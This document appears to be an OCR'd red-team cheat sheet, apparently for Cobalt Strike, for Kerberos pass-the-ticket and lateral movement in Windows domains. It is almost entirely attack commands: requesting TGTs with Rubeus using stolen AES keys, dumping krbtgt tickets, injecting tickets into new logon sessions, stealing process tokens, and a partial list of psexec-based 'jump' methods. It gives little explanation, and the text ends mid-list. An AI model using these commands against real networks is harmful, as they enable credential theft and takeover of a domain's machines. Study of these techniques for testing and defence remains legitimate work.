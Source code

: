 ## Pass the ticket
## Request a ticket
execute-assembly /root/Tools/SharpCollection/Seatbelt.exe -group=system
execute-assembly C:\path\Rubeus.exe asktgt /user:<username> /domain:<domain> /aes256:<aes_keys> /nowrap /opsec
## Create a new logon session to use with the new ticket (to not overwrite the compromised one)
make_token <domain>\<username> DummyPass
## Write the ticket in the attacker machine from a poweshell session & load it
[System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\jkingTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi

## Pass the ticket from SYSTEM
## Generate a new process with the ticket
execute-assembly C:\path\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:<AES KEY> /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
## Steal the token from that process
steal_token <pid>

## Extract ticket + Pass the ticket
### List tickets
execute-assembly C:\path\Rubeus.exe triage
### Dump insteresting ticket by luid
execute-assembly C:\path\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap
### Create new logon session, note luid and processid
execute-assembly C:\path\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
### Insert ticket in generate logon session
execute-assembly C:\path\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]
### Finally, steal the token from that new process
steal_token <pid>

# Lateral Movement
## If a token was created it will be used
jump [method] [target] [listener]
## Methods:
## psexec                    x86   Use a service to run a Service EXE artifact
## psexec64                  x64   Use a service to run a Service EXE artifact
## psexec_psh                x86   Use a service to run a PowerShell one-liner